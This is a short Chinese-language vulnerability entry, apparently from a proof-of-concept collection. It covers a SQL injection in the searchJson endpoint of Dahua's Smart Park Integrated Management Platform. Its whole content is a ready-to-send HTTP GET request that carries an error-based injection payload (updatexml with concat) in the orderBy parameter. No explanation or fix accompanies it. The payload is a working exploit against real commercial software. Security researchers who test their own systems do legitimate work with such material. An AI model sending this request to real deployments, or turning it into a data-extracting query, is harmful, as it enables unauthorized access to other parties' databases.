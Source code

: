 # 大华智慧园区综合管理平台 searchJson SQL注入漏洞

## 大华智慧园区综合管理平台 searchJson SQL注入漏洞
```
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(388609)),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: 127.0.0.1:7443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

